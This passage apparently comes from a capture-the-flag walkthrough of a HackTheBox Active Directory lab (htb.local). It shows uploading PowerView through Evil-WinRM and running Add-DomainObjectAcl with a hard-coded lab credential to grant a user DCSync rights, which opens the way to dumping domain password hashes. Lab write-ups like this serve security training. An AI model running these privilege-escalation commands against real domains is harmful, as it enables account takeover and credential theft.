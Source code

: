 If we now look at the edge information between the Exchange Windows Permissions Groups and _HTB.LOCAL_ we see the following under the advised abuse information.

![](<../../../.gitbook/assets/image (342).png>)

We need to upload [PowerView ](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)to the server so we can use the `Add-DomainObjectAcl` command. Upload PowerView using the `upload` command in Evil-WinRM.

![](<../../../.gitbook/assets/image (338) (1).png>)

Once uploaded load the PowerView Powershell script and run the following commands:

{% hint style="info" %}
When using Evil-WinRM you can load Powershell scripts by simply by typing the name of the script as a command (Providing you are in the same directory as the script)
{% endhint %}

```aspnet
$SecPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\Akimbo', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'htb.local\exchange windows permissions' -principalidentity 'Akimbo' -Rights DCSync
```

Add-DomainObjectAcl does not have any completed return output. If you receive no errors after running then this has likely worked.
